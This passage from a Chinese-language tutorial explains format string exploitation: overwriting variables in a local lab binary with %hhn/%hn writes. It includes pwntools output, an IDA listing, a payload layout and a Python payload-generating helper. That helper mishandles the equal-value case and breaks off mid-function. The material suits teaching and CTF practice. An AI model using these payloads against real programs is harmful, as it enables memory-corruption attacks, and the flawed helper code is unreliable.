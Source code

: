 对应的结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 76508
[*] Process './overwrite' stopped with exit code 0 (pid 76508)
0xffc1729c
aaaa$\xa0\x0modified a for a small number.
```

其实，这里我们需要掌握的小技巧就是，我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。

### 覆盖大数字

上面介绍了覆盖小数字，这里我们就少覆盖大数字了。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，变量一般的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为\x78\x56\x34\x12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志

```text
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
```

所以说，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。这里，我们以单字节为例。

首先，我们还是要确定的是要覆盖的地址为多少，利用ida看一下，可以发现地址为0x0804A028。

```text
.data:0804A028                 public b
.data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r
```

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

```text
0x0804A028 \x78
0x0804A029 \x56
0x0804A02a \x34
0x0804A02b \x12
```

首先，由于我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的

```text
p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
```

我们可以依次进行计算。这里给出一个基本的构造，如下

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
```